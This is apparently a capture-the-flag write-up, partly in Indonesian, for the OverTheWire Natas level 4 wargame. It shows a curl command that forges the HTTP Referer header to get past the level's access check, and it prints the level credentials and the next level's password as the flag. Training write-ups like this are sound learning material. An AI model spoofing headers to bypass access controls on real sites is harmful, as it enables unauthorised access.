```yaml
---
layout: level
level: 4
previous: ./level 03.html
next: ./level 05.html
---
```


# soal
Username: natas4 \
URL:      http://natas4.natas.labs.overthewire.org

# solve
- use cred natas4:QryZXc2e0zahULdHrtHxzyYkj59kUxLQ
- use the curl, burp suite, third party extension (header editor)
  - and change the request header with 
  ```
  Referer: http://natas5.natas.labs.overthewire.org/
  # gunakan / akhir karena ketika saya coba tanpa / tidak bisa
  ```
- jika menggunakan curl
  ```bash
  curl http://natas4.natas.labs.overthewire.org -u natas4:QryZXc2e0zahULdHrtHxzyYkj59kUxLQ -H "Referer: http://natas5.natas.labs.overthewire.org/"
  # Access granted. The password for natas5 is 0n35PkggAPm2zbEpOU802c0x0Msn1ToK
  ```

## HTTP Referer
- Referer: <url>
- dalah salah satu header HTTP yang digunakan untuk memberi tahu server dari mana asal pengguna sebelum mengakses halaman tertentu. Fungsinya adalah untuk memberi konteks kepada server tentang halaman sebelumnya yang "mengacu" atau "merujuk" ke halaman saat ini.

# flag
0n35PkggAPm2zbEpOU802c0x0Msn1ToK
